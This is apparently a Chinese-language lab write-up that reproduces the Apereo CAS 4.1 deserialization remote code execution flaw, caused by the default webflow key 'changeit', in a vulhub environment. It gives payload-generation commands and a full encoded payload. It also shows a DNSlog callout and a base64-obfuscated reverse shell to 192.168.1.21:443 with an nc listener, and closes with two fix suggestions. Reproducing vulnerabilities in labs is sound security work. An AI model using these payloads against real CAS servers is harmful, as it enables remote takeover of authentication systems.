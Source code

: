 # Apereo CAS 4.1 反序列化命令执行漏洞

## 漏洞描述

Apereo CAS是一款Apereo发布的集中认证服务平台，常被用于企业内部单点登录系统。

其4.1.7版本之前存在一处默认密钥的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令。



Webflow中使用了默认密钥changeit

```
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;
 
    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

```



## 影响范围

Aperep CAS 4.1.7之前



## 相关工具

[vulhub/Apereo-CAS-Attack: WIP: Demo for Attacking Apereo CAS](https://github.com/vulhub/Apereo-CAS-Attack)



[Runtime.exec Payload Generater | AresX's Blog](https://ares-x.com/tools/runtime-exec)



[DNSLog Platform](http://www.dnslog.cn/)



## 环境配置

vulhub

```
docker-compose up -d
docker-compose ps
```

![image-20250411095410622](./assets/image-20250411095410622.png)



访问web主界面

http://192.168.1.15:8080/cas/login

![image-20250411095601451](./assets/image-20250411095601451.png)



## 漏洞复现

利用apereo-cas-attack-1.0-SNAPSHOT-all.jar生成payload

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
```

```
6c331b59-647f-453a-ae89-f2dda84b2367_AAAAIgAAABBi4sgdLotRNIDjPdurCXEEAAAABmFlczEyOK0%2F9KdnbKCH4%2B03CFcHsuo5TNNbMGQ3PT0Dlr2j3N4lrThHDT5SqOg5YyclibUwNlN8iGfNwyX4HIxCoILfBWnLfCeIwiPHczMZ7KmQUzUjdfssAmBCNxJMe5roesWYRE83l3RQBt%2FSrapJ23lJrERrMOELeT5LYP74xiTZ%2BZchfgHCzZeVVkn8y2v6RR668P1euXv4cCncMJ66R6HKx3sy7vpZOYqV6PeERusodhB1E8adsEwLtTtLPbSXbWSfW9JoECbqvx%2Fg9l91VG9LGvpiEGPTDqTUrUar5jbEBNEyleQAdwa6wy%2F91FJQkY6o9zGR8OLIh5OHiDUKYI0En8UUEW%2FRHLzSWKmxxu1M%2FkSoSa8qEY4nzpd5ppKtqPx2kYGJJhrC7AptxPhBblPcGNiTmWJYj9u2SCuJ9pTeS%2BMdqyEh87Be2sr0I65ZNxwi%2FJZi8GBSXwR%2FfMSjdtrOu%2FXzMF9mwMYlzsklBfr9QIM4MYFq9UaZG274nADKurhvgdrg%2BHQCMCTg9IdUnmKag5sxXAaIZ3%2FFSpvrEJqocy2CXiKPIIopkvmM8Om3IGIGcJpsk90tnY1AvDFaa1VMbigeJ8KcvmWKRdStuMqumYxI8rA7fvtTrvkjgKaKyhg86ESDEzWe2dPgloaiJEZxbUJwVsXAj3hjQei9wT5dfHcitII3KHvWEEqY7LrV4fntryBzvSO5olDL9Nbe0NXpJBnCQMBV8%2FhF%2FIhaaJgm8sla3a7Bs5uVGiVCdnU7arIvMgJ6I0G9oNrNP3IWzIzFBuyY6on1PH0BuRu4zXuIBdNTcVtf1CJUMtvZ7%2FiNxi00cOQo6qULpalIKGPxgPXCBitvCzixUzWnwWbwdDVOFoSOLApM28JDIRUya4l%2FZ1t1rao3doojTv2FJIbpLAMZu83iXbLphjVaHuOs%2Be%2Bv%2F9KzowRKdnA7XnqtTQ%2B%2BQh9VGTxPoiAI4kEUVPoXQk9zDlbVt69JOuyiVtwt3WRTB%2BRSI9OSukfGd2CYnMwgVL00rp7Oy6Zbk33emNSS8c7lxI7cLumhO5c946IUbvdMDFiRGrebrk5%2FekQTKDCEXO4QFzSfRb1hQF%2FQrvMOJUDcoB3uTrdVkRTueICxTDCt5PUV%2B7pFc9UdYirHYsTfNlcTwvMOtbZWyYyfoItxlsmeGamK3NArsRgsu2kAxI1vR6x%2B17AxuNieDX15z2Pnaq8uXaG4NZjhV%2BFODnq9whJ1by7jXzXCgZZKJJXfV15aG9NEUGos1%2F%2BwkXOL4FVWZEASVbaVflcyIxKWyg6GqjgVj6K6M1pBQI3xy6JfuxLOd4iuHUYRGRt%2B4qISOMLpiGJOeTBhoWsp0NUO3jwzIqzeKQpTY7LIdtr0nrN7%2BsYza0hrw4u7vaq04cKl4d0YPyaSC1sg3FgKQdqtOWuN6xyLzig3dilO62wDGrgBQ8tbFXsshtPA7rYoK6AA968kOfTeGoJYoxQh%2F3GdjPrrbTsXd7QP%2BtsZ%2F88eAflnvrV15e%2Bg4nMNd89MyiJWk5zTMVQJwcmqg8cRd3TliBE3Wk%2BKeHph3ZMqQqLz%2FgXdRza%2Bk04wY6PCPdOl8Gr0Alabr4Ny%2FSSuD8wHX8%2BdbE7uE0CrfTLS7Vi4MnAltVP1t1Zr9KQHC1qDdYA463W7KpWaFiC9osh8gJjItH5gFltPWnxmrPioVHhGVrm1Meb56IZ8qaHPNFPrKXL1kAHFx2xdMsp%2BGask7FgSkv4usEM7Zic5yhXGXtVlyhsW1xTXjz0Xhvoi5hbZxItIkFoqnr4%2F1vbZaeM%2F8y%2BQLU01LNPl46fYZY2niu33SSK4hKsZjwM1Cijl%2BZRpvsiMcDdCvZbdH3E2dryKdgc32VluGAFVMJHR0l7NdHWuw%2BdbE8rTWmDfDYb3XunrcuWcc2R1lFYvj2bbWmKyy130KMkwIzr5V24ChjnJycPo3%2F3n%2FTe8xtEF0BigFrE%2FIgWNK6MxxA6SckU%2BzQ%3D%3D
```



返回登录界面，点击登录，然后抓包

![image-20250411095852963](./assets/image-20250411095852963.png)

将execution改为payload

![image-20250411095944108](./assets/image-20250411095944108.png)

进入容器中验证

```
docker ps
docker exec -it d6a7f0264c58 /bin/bash
ls /tmp
```

![image-20250411100017512](./assets/image-20250411100017512.png)

成功执行



尝试dnslog

![image-20250411100244255](./assets/image-20250411100244255.png)

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "ping iuu9dz.dnslog.cn"
```

![image-20250411100308795](./assets/image-20250411100308795.png)

![image-20250411100326302](./assets/image-20250411100326302.png)

![image-20250411100334683](./assets/image-20250411100334683.png)



尝试反弹shell

![image-20250411100427520](./assets/image-20250411100427520.png)



本地开启监听

```
nc -lvp 443
```

![image-20250411100441207](./assets/image-20250411100441207.png)



生成payload

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMjEvNDQzIDA+JjE=}|{base64,-d}|{bash,-i}"
```

![image-20250411100459662](./assets/image-20250411100459662.png)

![image-20250411100527071](./assets/image-20250411100527071.png)



![image-20250411100520804](./assets/image-20250411100520804.png)

成功弹回shell





## 修复建议

- 升级版本
- 更改webflow密钥